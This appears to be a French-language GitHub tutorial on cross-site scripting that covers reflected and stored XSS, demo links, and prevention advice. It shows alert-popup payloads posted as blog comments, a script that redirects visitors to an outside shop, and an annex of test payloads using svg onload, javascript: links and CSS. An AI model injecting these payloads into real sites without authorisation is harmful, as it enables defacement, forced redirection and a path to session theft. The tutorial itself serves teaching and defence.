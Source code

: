 # 🛡️ **Introduction**  

Les attaques **XSS** (Cross-Site Scripting) sont des vulnérabilités web critiques qu'il est essentiel de **comprendre et prévenir**. Voici une présentation structurée et engageante pour en découvrir les impacts.

---

🌟 **Types d'attaques XSS principaux** 🌟  

---

### 🪞 **XSS Réfléchi (Reflected)**  

- L'attaque renvoie immédiatement les données malveillantes à l'utilisateur.  
- Nécessite que la victime clique sur un lien spécialement conçu.  
- **Cible :** Pages de recherche et messages d'erreur.  

---

### 💾 **XSS Persistant (Stored)**  

- Le code malveillant est **stocké en permanence** sur le serveur.  
- Affecte **tous les visiteurs** de la page compromise.  
- **Danger :** Peut toucher des milliers d’utilisateurs.

---

# 🚀 **Démonstration : Testez Votre Sécurité Web** 🔥  

🔗 **Liens de test :**  
1️⃣ [http://latestworlds.com/demo/](http://latestworlds.com/demo/)  
2️⃣ [http://latestworlds.com/demo/article.php?id=1#](http://latestworlds.com/demo/article.php?id=1#)

---

# ⚡ **Scénario 1 : Exploitez une injection simple XSS**  

🎯 **But du scénario :** Comprendre comment une injection simple peut exposer des failles.

---

### 💻 **Code JS du Scénario 1 :**  

```javascript
<script>alert('XSS!')</script>
```

---

### 💥 **Capture 1 : Injection réussie**  

![image](https://github.com/user-attachments/assets/ae85fbc2-df75-48e4-b0d4-a83e80c5ace6)

⚠️ Vous verrez un **pop-up** avec un simple `alert('XSS!')`. Cela prouve qu'une faille existe ! 🕵️‍♂️  

---

# 🎭 **Scénario 2 : Quand Mathieu part en freestyle**  

---

### 🚪 **Étapes :**

1. Accédez à la **section des commentaires** 🗨️  
   ![image](https://github.com/user-attachments/assets/0a95be5e-17f1-4507-9362-79465c1ff144)

2. **Premier commentaire simple** : Mathieu le passionné adore WordPress.  
   ![image](https://github.com/user-attachments/assets/53434e99-3082-4cf8-9f03-4856691a060c)

3. **Deuxième commentaire :** Marc ajoute son amour pour **JavaScript**.  
   ![image](https://github.com/user-attachments/assets/9aeacbd8-4088-4df8-93b8-9f7e0500854a)

4. Puis… **un autre Mathieu** tente une farce XSS ! 🤡  

---

### 🛠️ **Code :**  
```javascript
<script>alert('XSS!')</script>
```

---

# 🔗 **Scénario 3 : Redirection malicieuse** 🚨  

---

🎯 **Script XSS pour redirection :**  
```html
<script>window.location.href="https://boutique.rapidopresco.com/";</script>
```

---

### 💥 **Résultat : Redirection automatique**  

1️⃣ [http://latestworlds.com/demo/](http://latestworlds.com/demo/)  
2️⃣ [http://latestworlds.com/demo/article.php?id=1](http://latestworlds.com/demo/article.php?id=1)

---

## 🔍 **Pourquoi tester vos systèmes ?**  

✅ **Détectez** les vulnérabilités avant les hackers 💻  
✅ **Renforcez** la sécurité de vos plateformes 🛡️  
✅ **Rassurez** vos clients avec un environnement sécurisé 🔒  

---

🎁 **Prêt à sécuriser votre application ?** Testez dès maintenant vos systèmes dans un environnement **contrôlé** ! 🚀  

---

# 🛑 **Impacts et Prévention des attaques XSS**  

### ⚠️ **Risques principaux :**  
- 📛 Vol de cookies et sessions utilisateurs.  
- 🎣 Hameçonnage et détournement d'identifiants.  
- ✍️ Modification des pages web.  

### 🛡️ **Mesures de prévention :**  
1. **Validation stricte** des entrées utilisateur.  
2. **Encodage HTML** des sorties.  
3. Utilisation de **CSP (Content Security Policy)**.  
4. Adoptez des **frameworks sécurisés**.  

---

# 📝 **Annexe : Scripts XSS pour Tests Pédagogiques**  

### 💻 **Scripts simples :**
```javascript
<script>alert('XSS Test')</script>
<a href="javascript:alert(String.fromCharCode(88,83,83))">Cliquez ici</a>
```

### ⚙️ **Scripts avancés :**  
```javascript
<svg onload=alert('XSS')>
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE>
```

⚠️ **Important :** Testez uniquement dans des environnements sécurisés et contrôlés !  

---

# 🎯 **Conclusion : La sécurité, c'est pour tous !**  

La démonstration montre à quel point une simple faille XSS peut être dangereuse. **Validez toujours les entrées utilisateur et testez régulièrement vos systèmes.** 🛡️  

🔥 **Protégez vos utilisateurs, vos données, et votre réputation !** 🔥  

---

### 📢 **Partagez cette démonstration !** 👥  
🔗 **La sécurité, c’est l’affaire de tous.**  

